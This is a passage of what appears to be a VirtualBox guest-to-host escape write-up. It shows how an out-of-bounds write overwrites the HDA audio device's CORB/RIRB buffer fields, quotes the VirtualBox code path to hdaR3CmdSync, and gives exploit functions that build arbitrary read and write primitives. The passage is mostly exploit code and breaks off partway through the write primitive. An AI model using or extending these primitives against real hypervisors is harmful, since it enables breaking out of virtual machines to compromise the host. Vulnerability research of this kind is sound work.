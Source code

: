 ~~~c++
    }

....    
    
}
~~~

Use the Out-of-Bound write to modify the fields: **cbCorbBuf**, **pu32CorbBuf**, **cbRirbBuf**, **pu64RirbBuf** we can get the arbitrary read/write primitives.

Set the HDA registers properly, we can reach to the **hdaR3CmdSync()** function:

~~~c++
static int hdaRegWriteCORBWP(PHDASTATE pThis, uint32_t iReg, uint32_t u32Value)
{

....    

    rc = hdaR3CORBCmdProcess(pThis);

....
    
}

static int hdaR3CORBCmdProcess(PHDASTATE pThis)
{

....    

    int rc = hdaR3CmdSync(pThis, true /* Sync from guest */);

....    

    rc = hdaR3CmdSync(pThis, false /* Sync to guest */);

....    
    
}
~~~

With this, we already have the two powerful primitives:

~~~c++
uint64_t arbitrary_read(uint64_t addr)
{
    if (mapped_RIRB_buffer && mapped_hda_mmio)
    {
        eeprom_relative_write_qword(eeprom_offset_pu64RirbBuf, addr);   // REPLACE RIRB BUFFER
        *(uint8_t*)&mapped_hda_mmio[0x4c] = 2;                          // CALL hdaR3CORBCmdProcess()

        uint64_t result = mapped_RIRB_buffer[0];
        return result;
    }
    else
    {
        DbgPrint("[-] RIRB IS UNINITIALIZED\n");
        return 0;
    }
}

bool arbitrary_write(uint64_t addr, PHYSICAL_ADDRESS data)
{
    if (mapped_hda_mmio && pu32CorbBuf_ptr)
    {
        eeprom_relative_write_qword(eeprom_offset_pu32CorbBuf, addr);
~~~